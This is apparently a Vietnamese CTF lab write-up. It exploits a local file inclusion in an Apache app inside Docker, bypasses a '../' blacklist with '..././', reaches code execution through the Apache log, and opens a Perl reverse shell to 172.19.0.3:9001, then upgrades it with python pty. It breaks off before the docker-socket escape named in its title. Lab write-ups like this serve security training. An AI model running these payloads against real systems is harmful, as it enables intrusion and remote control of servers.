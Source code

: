 # Writeup Docker Lab (Docker container escape via docker socket)

## Giao diện bài lab  
![alt text](image.png)

> Trông khá đơn giản nhỉ
Đầu tiên mình recon xem web có những path nào , ở đây mình dùng dirsearch 

![alt text](image-2.png)

Thấy có .htaccess thì web server ở đây là apache và thấy có *"/include"* 

![alt text](image-3.png)  
biết được thêm nó chạy *"Apache/2.2.52 Unbuntu"* và các file này chắc là được include vào 

![alt text](image-4.png)  
và hình như điều đó là đúng , nếu là include file thì maybe LFI(Local File Inclusion), và mình thấy nó *"include\pathfile" vì nãy mình dirsearch thấy nó có folder include*

Thử đọc */etc/passwd* xem sao  
![alt text](image-5.png)  
Có vẻ author đã filter, thử các đường dẫn mà quyền các user bình thường có xem được (Vì apache chạy dưới quyền www-data)  
Ví dụ như  :   /etc/group , /etc/hotst , /etc/motd , /proc/mounts , /proc/net/arp 

![alt text](image-6.png)  
Có vẻ đã bị filter hết rồi :>>>

Thử với :/etc/fstab : , chứa các mount point để khi hệ thống khởi động lên sẽ mount với device 

![alt text](image-8.png)  
Nhưng mà không có thông báo detecd hacking , thì khả năng author filter bằng blacklist   

![alt text](image-9.png)  
Thử *?file=../include/home.php* mà không được thì khả năng là ../ không được thực thi , có vẻ author cũng sẽ filter cái này  
![alt text](image-10.png)  
Thử bypass bằng ..././ và bypass =>  filter "../" bằng "" 

Thử độc /etc/fstab như trên xem được không  ? 

![alt text](image-11.png)  

Tiếp tục với  /etc/mtab là một tập tin trong hệ thống Linux và Unix, chứa thông tin về các file hệ thống được gắn kết (mounted) vào hệ thống tại thời điểm hiện tại. 

![alt text](image-12.png)

Có vẻ web server này đang được chạy trên docker 

Tiếp đó mình tiến hành fuzzing thử xem :
Payload mình lấy ở đây :  
[Payload](https://gist.github.com/SleepyLctl/63a2da730a3d5abce5013f0f510b1fe2)

Sau khi chạy 1 hồi thì mình thấy mình có thể đọc được file log của apache => Từ đó mình có thể RCE qua đây  
![alt text](image-13.png)

![alt text](image-14.png)  
![alt text](image-15.png)  
mình đã thực thi được lệnh giờ thì tìm flag thôi 

```js
find / -type f -name flag.txt
```

![alt text](image-16.png)

![alt text](image-17.png) 

Tiến hành reverse shell 
kiểm tra xem nó hỗ trợ các loại nào 
![alt text](image-18.png)

Payload reverse shell  
```js
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.19.0.3:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

![alt text](image-20.png)

![alt text](image-21.png)
Chúng ta đang dứới quyền www-data của apache 

Kiểm tra tiếp container này đang hỗ trợ loại shell nào ? 
```js
cat /etc/shells
```
![alt text](image-22.png)  

Shell của mình ở đây bị hạn chế interact nên mình sẽ tìm cách lên fully iteractive shell 

1 . FULL TTY with python 

```js 
//kiểm tra xem có python ở trong container hay không 
which python python2 python3 
```

ok ở đây mình có *python3* 
![alt text](image-23.png)

```js 
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell

```